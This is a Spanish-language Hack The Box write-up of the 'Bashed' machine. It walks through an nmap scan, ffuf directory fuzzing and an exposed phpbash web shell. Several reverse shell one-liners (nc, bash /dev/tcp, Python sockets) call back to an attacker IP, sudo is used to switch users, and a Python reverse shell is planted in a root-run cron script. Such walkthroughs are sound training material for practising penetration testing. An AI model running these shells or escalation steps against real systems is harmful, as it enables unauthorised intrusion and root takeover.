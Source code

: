 # Bashed-HTB
Resolucion de la maquina

## Nmap

```
nmap -sS -Pn --open 10.129.165.94 -oG scan 
```

Encontramos el puerto 80 tcp abierto

![image](https://github.com/gecr07/Bashed-HTB/assets/63270579/678fc948-f147-42df-82d1-fe6d367732b1)

Dentro de la pagina encontramos que esta montado eso intentamos ver si tiene ruta por defecto. Credencuales etc.

```
/uploads/phpbash.php 404 not found
```

![image](https://github.com/gecr07/Bashed-HTB/assets/63270579/0c544556-8cab-4cb5-bc5d-4532791899e2)

Entonces debe de haber otra ruta...

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -t 1000 -u  http://10.0.10.1:5000/FUZZ

# Encontramos todas esas rutas accesibles

http://10.129.79.161/php/ #Encontramos un archivo sendMail.php

http://10.129.79.161/images/ # Imagenes

http://10.129.79.161/fonts/ #Fonts

http://10.129.79.161/js/ #Js 

http://10.129.79.161/dev/ # Aqui esta el RCE inicial el phpbash.php

http://10.129.79.161/css/
```

## PHPBASH

> https://github.com/Arrexel/phpbash

![image](https://github.com/gecr07/Bashed-HTB/assets/63270579/97bf7979-4b93-4530-9189-126b9583904c)

## RCE

Intente salir de esa shell subiendo un php con nc y bash y no jalo pero con python si...

```
nc -e /bin/bash 10.10.14.74 443 # No Jalo

bash -i >& /dev/tcp/10.10.14.74/4444 0>&1 # no jalo mmm

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.74",443)); 
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


#Full tty

python -c ‘import pty; pty.spawn(“/bin/bash”);’

```
Si miramos un poco la maquina nos dice que:

> sudo -l reveals that the ​www-data​ user can run any command as scriptmanager​, without having to provide a password.

Entonces nos hacemos scriptmanager

```
(scriptmanager : scriptmanager) NOPASSWD: ALL

sudo -u scriptmanager /bin/bash
```

## Apache rutas interesantes

Aqui recopile algunas rutas interesantes.

```
/etc/apache2/sites-enabled
/etc/apache2/sites-enabled/000-default.conf
/var/www/pub
/etc/php/7.0/mods-available/ftp.ini
/usr/share/php7.0-common/common/ftp.ini
/home/scriptmanager/.bashrc
/var/www/html/config.php
## Busque archivos SUID


find / -name "*.*" -type f -perm -400

```

Al ejecutar el linpeas nos dimos cuenta de la existencia de un folder /scripts y tambien usamos el pspy para ver que hay dentro.

```
pspy32s
```

![image](https://github.com/gecr07/Bashed-HTB/assets/63270579/9c427a79-031d-442b-91eb-1b26e5533e37)

Si vemos tiene el UID en cero lo que nos indica que root esta corriendo ese comando.

```
Se ejecutara cada minuto y nos regresa una reverse shell con permisos de root.**9**

echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.74",4444)); 
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > test.py
```

![image](https://github.com/gecr07/Bashed-HTB/assets/63270579/040d5787-ea2a-494e-8854-5a44229e1c9f)








